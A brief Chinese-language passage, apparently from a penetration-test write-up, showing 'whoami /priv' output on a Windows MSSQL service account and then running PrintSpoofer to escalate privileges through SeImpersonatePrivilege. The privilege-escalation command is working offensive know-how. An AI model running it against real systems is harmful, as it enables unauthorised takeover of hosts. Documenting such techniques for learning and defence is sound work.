 whoami /priv查看特权信息

```

特权信息
----------------------

特权名                        描述                 状态  
============================= ==================== ======
SeAssignPrimaryTokenPrivilege 替换一个进程级令牌   已禁用
SeIncreaseQuotaPrivilege      为进程调整内存配额   已禁用
SeChangeNotifyPrivilege       绕过遍历检查         已启用
SeImpersonatePrivilege        身份验证后模拟客户端 已启用
SeCreateGlobalPrivilege       创建全局对象         已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集       已禁用

```

因为是mssql的服务，想到用Potato系列来进行权限提升（该提权手法的前提是拥有`SeImpersonatePrivilege`或`SeAssignPrimaryTokenPrivilege`权限）

```
C:/ProgramData/PrintSpoofer64.exe -i -c whoami
```

![QQ_1722145534523](images/3.png)
